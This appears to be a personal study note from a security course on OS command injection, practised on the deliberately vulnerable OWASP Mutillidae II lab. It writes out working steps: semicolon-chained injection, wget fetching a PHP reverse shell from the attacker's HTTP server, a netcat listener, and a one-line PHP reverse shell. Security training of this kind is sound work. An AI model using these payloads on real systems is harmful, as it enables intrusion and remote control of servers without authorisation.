



# Command Injection

## Overview
Command injection is a vulnerability where an attacker abuses input fields by passing operating system commands instead of expected input. It's similar to HTML injection — but instead of injecting HTML code, we inject OS commands like ls, whoami, cd, find passwords, or set up reverse shells.

This happens due to unfiltered input fields.

**Severity:** Much more serious than HTML injection (which is mostly considered a bug). Command injection allows full system command execution on the target.

---

## Two Types of Command Injection

### 1. Reflected Command Injection
Output is reflected on the website. When you inject commands, the website displays the result directly.

### 2. Blind Command Injection
Output is NOT reflected on the website. But that doesn't mean the website isn't vulnerable. We can monitor packets in Wireshark to confirm — set filter to icmp and watch for ping responses.

| Type | Output Visible? | Detection Method |
|------|----------------|------------------|
| Reflected | Yes | Directly on page |
| Blind | No | Wireshark (ICMP filter) |

---

## Practical — OWASP BWA

**Target:** OWASP Mutillidae II
**Navigation:** OWASP 2013 → A1-Injection (Other) → Command Injection → DNS Lookup

  
📸 Click to view

   
  

The page has an input field asking for a DNS hostname or IP address.

**First test — basic injection:**

www.google.com; whoami

**Result:**

  
📸 Click to view

   
  

**Why semicolon:** The ; allows us to execute two commands. www.google.com processes first, then whoami runs. If we type whoami directly, the site treats it as a domain name — so we chain it after a valid domain.

---

## Uploading PHP Reverse Shell

### Step 1: Find the Reverse Shell

cd /usr/share/webshells/
ls

The file is: php-reverse-shell.php

### Step 2: Configure the Shell

sudo nano php-reverse-shell.php

Change:
- IP address to your Kali IP
- Port (optional, default 4444)

### Step 3: Host the Shell

cd /usr/share/webshells/
python3 -m http.server 1010

This serves all files in the directory over HTTP.

### Step 4: Download Shell to Target
In the input field, type:

;wget http://192.168.18.24:1010/php-reverse-shell.php

This downloads the reverse shell onto the target webserver.

### Step 5: Set Up Listener

nc -lvp 4444

Use the port you configured in the reverse shell.

### Step 6: Execute the Shell
In the input field:

;php php-reverse-shell.php

**Result:** Shell received. The website stays loading until you exit the shell.

  
📸 Click to view

   
  

---

## Making the Shell Functional

The raw reverse shell works but is limited. Upgrade it:

python -c 'import pty;pty.spawn("/bin/bash")'

**Result:**

www-data@owaspbwa:/$

---

## Alternative — One-Liner PHP Reverse Shell

Simpler method — paste this directly in the input field:

php -r '$sock=fsockopen("192.168.18.24", 4444); exec("/bin/bash -i <&3 >&3 2>&3");'

**Listener:**

nc -lvp 4444

You get a shell immediately.

---

## Key Takeaways

- ; chains commands — domain processes first, then OS command runs
- Reflected = see output; Blind = confirm via Wireshark ICMP
- Reverse shell upload via wget + HTTP server
- Raw reverse shells are limited — upgrade with pty.spawn
- One-liner PHP command is faster but harder to remember
- The website stays stuck loading while the shell is active
